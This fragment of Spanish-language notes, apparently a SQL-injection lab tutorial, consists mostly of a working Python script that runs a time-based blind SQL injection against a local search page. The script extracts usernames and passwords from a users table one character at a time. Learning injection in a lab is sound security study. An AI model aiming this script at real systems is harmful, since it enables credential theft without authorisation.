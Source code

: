 ```mysql
1 row in set (0,000 sec)
```

* Script en python para hacer fuerza bruta con una **inyección** sql basada en **tiempo**:

```python
import requests, signal, sys, time, string
from pwn import *

def def_handler():
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

# Control +C 
signal.signal(signal.SIGINT, def_handler)

main_url = "http://localhost/search_users.php"
query = "SELECT GROUP_CONCAT(username,0x3a,password) FROM users"

def makeSQLi():
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando processo de fuerza bruta")
	
	time.sleep(2)
	
	p2 = log.progress("Resultado")
	extracted_info = ""
	
	for p in range(1,150):
		for c in range(33, 126):
			sqli_url = f"{main_url}?id=1 AND IF(ASCII(SUBSTR(({query}),{p},1))={c},SLEEP(1.5),1)"
			time_start = time.time()
			p1.status(sqli_url)
			r = requests.get(sqli_url)
			time_end = time.time()
			
			if time_end - time_start > 1.5:
				extracted_info += chr(c)
				p2.status(extracted_info)
				break

if __name__ == '__main__':
	makeSQLi()
```
